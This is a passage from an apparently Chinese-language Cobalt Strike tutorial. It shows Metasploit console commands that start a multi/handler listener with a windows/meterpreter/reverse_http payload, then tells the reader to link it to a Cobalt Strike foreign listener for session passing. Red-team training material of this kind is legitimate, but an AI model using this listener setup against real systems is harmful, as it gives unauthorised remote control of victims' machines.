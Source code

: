 ![image-20240628162225922](26.Cobalt%20Strike%20%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/image-20240628162225922.png)

### Foreign Beacon

使用Cobalt Strike外部监听器可以派生meterpreter会话，这里有Foreign HTTP和Foreign HTTPS两种监听器，其中Foreign HTTPS的流量是加密的。
首先msf起一个监听器：

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 192.169.91.128
lhost => msf ip
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit
```

然后CS里配置一下，填上msf服务器的ip和监听的端口
